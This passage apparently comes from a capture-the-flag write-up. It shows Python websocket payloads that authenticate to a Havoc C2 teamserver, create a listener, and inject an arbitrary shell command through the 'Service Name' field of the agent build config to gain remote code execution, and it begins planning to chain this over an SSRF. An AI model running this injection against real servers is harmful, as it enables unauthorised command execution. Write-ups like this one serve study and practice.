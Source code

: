 The first websocket message is to authenticate:

```

payload = {"Body": {"Info": {"Password": hashlib.sha3_256(PASSWORD.encode()).hexdigest(), "User": USER}, "SubEvent": 3}, "Head": {"Event": 1, "OneTime": "", "Time": "18:40:17", "User": USER}}
ws.send(json.dumps(payload))
print(json.loads(ws.recv()))

```

The second will create a listener to build an agent for:

```

payload = {"Body":{"Info":{"Headers":"","HostBind":"0.0.0.0","HostHeader":"","HostRotation":"round-robin","Hosts":"0.0.0.0","Name":"abc","PortBind":"443","PortConn":"443","Protocol":"Https","Proxy Enabled":"false","Secure":"true","Status":"online","Uris":"","UserAgent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"},"SubEvent":1},"Head":{"Event":2,"OneTime":"","Time":"08:39:18","User": USER}}
ws.send(json.dumps(payload))

```

The third one is to run the injection:

```

cmd = input("$ ")
injection = """ \\\\\\\" -mbla; """ + cmd + """ 1>&2 && false #"""

# Command injection in demon compilation command
payload = {"Body": {"Info": {"AgentType": "Demon", "Arch": "x64", "Config": "{\n    \"Amsi/Etw Patch\": \"None\",\n    \"Indirect Syscall\": false,\n    \"Injection\": {\n        \"Alloc\": \"Native/Syscall\",\n        \"Execute\": \"Native/Syscall\",\n        \"Spawn32\": \"C:\\\\Windows\\\\SysWOW64\\\\notepad.exe\",\n        \"Spawn64\": \"C:\\\\Windows\\\\System32\\\\notepad.exe\"\n    },\n    \"Jitter\": \"0\",\n    \"Proxy Loading\": \"None (LdrLoadDll)\",\n    \"Service Name\":\"" + injection + "\",\n    \"Sleep\": \"2\",\n    \"Sleep Jmp Gadget\": \"None\",\n    \"Sleep Technique\": \"WaitForSingleObjectEx\",\n    \"Stack Duplication\": false\n}\n", "Format": "Windows Service Exe", "Listener": "abc"}, "SubEvent": 2}, "Head": {
    "Event": 5, "OneTime": "true", "Time": "18:39:04", "User": USER}}
ws.send(json.dumps(payload))

```

There is code in the POC to process the results and print it, but I’m going to focus on getting RCE.

### Create Exploit

#### Strategy

If I can set up this websocket connection over the SSRF and send three messages into it, I should get RCE. I’ll need to generate two functions. One to generate the HTTP GET request to initiate the websocket connection, and then one to generate messages to the websocket.
